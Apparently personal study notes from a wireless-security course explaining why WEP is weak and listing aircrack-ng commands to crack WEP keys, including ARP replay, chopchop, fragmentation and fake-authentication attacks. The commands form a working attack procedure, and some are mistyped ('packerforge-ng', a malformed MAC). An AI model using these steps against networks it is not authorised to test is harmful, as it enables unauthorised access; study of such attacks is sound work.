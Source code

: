 # WEP = Wired Equivalent Privacy
- uses RC4 algorithm
- old encryption
- easily racked

- each packet is encrypted using a unique key stream
- Random initialization vector (IV) is used to generate the kets streams
- The initialization vector is only 24 bits
- IV + key (password) = key stream
- keystream + “Data to send the router” = ADFJGKFKAKJFJA
	- But the IV is appended to the packet, IV + ADFJGKFKAKJFJA
- The issue is that the IV is sent in plain text and the IV is only 24 bits
	- IVs will repeat in buy networks and makes WEP vulnerable to statistical attacks

# To crack WEP:
- Capture a large numbers of packets/IVs       > using airodump-ng
- Analyze the captured IVs and crack the key  > using aircrack-ng
![[Pasted image 20240116123303.png]]

- airodump-ng wlan0
   - Get the BSSID of the target WEP network
- airodump-ng --bssid  00:1A:70:70:69:4B --channel 11 --write WEP_ConnectMe wlan0
   - We want to see a large number under the \#Data column. This means there is a lot of traffic flowing through this network
   - The data we are interested in is in the .cap file
-  aircrack-ng WEP_ConnectMe-01.cap
   - If we found the key, you will see “KEY FOUND!”
   - You can connect using both keys
      - 1- use the key without the “:” or use the ASCII one as is.

![[Pasted image 20240116123420.png]]

# If the network is not busy, we need to generate traffic on the WEP network.
- airodump-ng --bssid  00:1A:70:70:69:4B --channel 11 --write WEP_ConnectMe wlan0
- aireplay-ng --fakeauth 0 -a 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0
   - Associate with the AP before performing the attack
   - a = MAC of WEP AP
   - h = MAC of wireless card
      - 1- ifconfig, first 12 letters of the unspec field (make sure to replace the minuses with colons)
- Force AP to generate new IVs by resending the AP ARP packets
   - aireplay-ng --arpreplay -b 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0
- aircrack-ng WEP_ConnectMe-01.cap
   - have the airodump-ng and the arpreplay windows open and running. We want to continue to generate as much traffic as needed.


# Other attacks to generate traffic:
- chop chop
   - aireplay-ng --chopchop -b 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0
   - packerforge-ng 0 -a 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 -k 255.255.255.255 -l 255.255.255.255 -y file.xor -w chopchop-forced-packet
   - aireplay-ng --fakeauth 0 -a 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0
   - aireplay-ng -2 -r chopchop-forced-packet wlan0
   - aircrack-ng chopchop.cap
- Fragmentation
   - airodump-ng --bssid  00:1A:70:70:69:4B --channel 11 --write WEP_ConnectMe wlan0
   - aireplay-ng --fakeauth 0 -a 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0 
   - aireplay-ng --fragment -b 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0
   - packerforge-ng 0 -a 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 -k 255.255.255.255 -l 255.255.255.255 -y fragment.xor -w fragment-forced-packet
   - aireplay-ng --fakeauth 0 -a 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0
   - aireplay-ng -2 -r fragment-forced-packet wlan0
   - aircrack-ng fragment.cap

# If WEP is configured not to have open authentication but with shared key authentication
- This will prevent us from associating with the router if we do not know the shared key
	- AUTH = SKA, open networks will show OPN

- ARP attack
   - airodump-ng --bssid  00:1A:70:70:69:4B --channel 11 --write ska_test wlan0
   - aireplay-ng --arpreplay -b 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0
      - 1- b = MAC of WEP AP
      - 2- h = MAC of a connected client
   - aircrack-ng arp.cap
      - 1- keep both windows from above commands open
   - This attack will work woth OPN and SKA authentication WEP networks. It just requires that you have a client connected.

